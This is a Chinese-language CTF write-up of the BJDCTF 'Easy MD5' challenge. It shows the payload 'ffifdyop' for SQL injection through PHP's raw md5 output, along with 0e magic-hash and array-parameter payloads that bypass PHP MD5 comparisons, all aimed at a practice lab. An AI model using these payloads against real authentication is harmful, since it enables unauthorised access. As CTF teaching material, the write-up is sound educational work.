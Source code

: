 ```yaml
---
title: BJDCTF Easy MD5
date: 2023-10-27T13:00:25+08:00
slug: 09030b0
tags:
  - MD5
  - tools
categories:
  - CTF
---
```


<font size=1>只是隐隐约约记得MD5是一种加密算法</font>

  

# SQL Injection？

输入：

- 数字

- 字母

- 数字+符号

- 简单SQL语句

- 简单XSS语句

<!--more-->

  

都没什么效果，所以抓包。

```http

GET /leveldo4.php?password=1 HTTP/1.1

Host: f4a0e561-18e7-44bb-97d3-df00b826a81a.node4.buuoj.cn:81

Upgrade-Insecure-Requests: 1

...

Referer: http://f4a0e561-18e7-44bb-97d3-df00b826a81a.node4.buuoj.cn:81/leveldo4.php?password=9

Accept-Encoding: gzip, deflate

...

```

查看Response

```htttp

HTTP/1.1 200 OK

Server: openresty

Date: Fri, 27 Oct 2023 04:28:47 GMT

Content-Type: text/html; charset=UTF-8

Connection: close

Hint: select * from 'admin' where password=md5($pass,true)

X-Powered-By: PHP/7.3.13

Content-Length: 3107

```

那个`Hint`(从 admin 表中选择密码字段等于 $pass 变量的 MD5 值的记录),比较显眼。所以启用`sqlmap`。

同时也启用`dirsearch`和`dirmap`（结果是什么也没得到）。

**结果**:

- `sqlmap`——`GET parameter 'password' does not seem to be injectable`

- `dirmap`——没有可用信息

- `dirsearch`——几个200 URL都是跳转`leveldo4.php`

  

# MD5？

  

再回看`Hint`：

  

>PHP中md5函数如果第二个参数设为true，返回的是二进制内容，如果能恰好凑出类似'or的字符串，就可以构成SQL注入

  

所以就是要构造一个经过`MD5`再经过`二进制`后得到的值有`‘or`的payload。

上网找了找，说是有

  

- `ffifdyop`

  

将password的值修改为`ffidyop`就会跳转界面`levels91.php`。

好大一个Do You Like MD5?

  

查看页面代码：

```html

<!--

    $a = $GET['a'];

    $b = $_GET['b'];

  

    if($a != $b && md5($a) == md5($b)){

        //...

    }

-->

```

  

- 1. 从 GET 请求参数中获取 `a` 和 `b` 的值，并将它们分别赋给变量 `$a` 和 `$b`。

- 2. 接下来，使用条件判断语句进行逻辑判断。如果 `$a` 不等于 `$b` 并且 `$a` 的 MD5 值等于 `$b` 的 MD5 值，即 `md5($a) == md5($b)`，则进入条件判断的代码块内部。

  

所以接下来又是寻找符合条件的a与b。

有两种解决方式：

  

>1.PHP弱类型比较绕过

  

参考<a href=https://blog.csdn.net/u014549283/article/details/81288443>PHP hash漏洞之MD5</a>可以得到：

  

- PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0

（为什么说是hash值？）

另一个简洁版本：<a href=https://www.cnblogs.com/ainsliaea/p/15126218.html>PHP MD5相等绕过</a>

  

构造payload：

```http

?a=s878926199a&b=s155964671a

```

  

>2.数组绕过

  

在上面那个简洁版本里也提到了这个数组绕过，不过说PHP8就行不通了。不过靶场的PHP依旧适用。

  

参考<a href=https://mrl64.github.io/2021/12/18/php%E5%BC%B1%E7%B1%BB%E5%9E%8B%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/>PHP弱类型绕过</a>:

  

- `md5()/sha()`这类函数无法处理数组，如果传入的是数组,`md5()`返回`NULL`，加密后得到的也是`NULL`，满足两个md5值相等

  

构造payloa：

```http

?a[]=1&b[]=2

```

  

 `a[]=1&b[]=2`，其中 `a[]` 和 `b[]` 是数组参数。当 PHP 解析这个查询字符串时，它会将这些参数解析为数组。

  

```php

$_GET['a'] = array('1');

$_GET['b'] = array('2');

```

  

- 由于md5()函数存在缺陷,加密数组的时候返回值是NULL，即在MD5加密之后，`a[]=NULL、b[]=NULL`，符合要求。

  

然后我们又跳转页面...

  

----

  
  
  

# param？

  

```php

<?php

error_reporting(0);

include "flag.php";

  

highlight_file(__FILE__);

  

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){

    echo $flag;

}

```

  

其实可以看出就是call back，只不过要以`POST`方式传参，所以打开我的firefox渗透版:

```http

http://fdcf43aa-9abd-4770-8798-7d1efbb1ffb0.node4.buuoj.cn:81/levell14.php

//post data

param1[]=1&param2[]=2

```

最后得到flag。

  

-----

  

# ファンワイ

  

比较详细的解释了PHP比较和绕过的原理：<a href=https://xz.aliyun.com/t/5426>PHP 黑魔法</a><br>

  

<a href=https://www.cnblogs.com/linfangnan/p/13411103.html>CTF WEB PHP弱类型绕过</a>
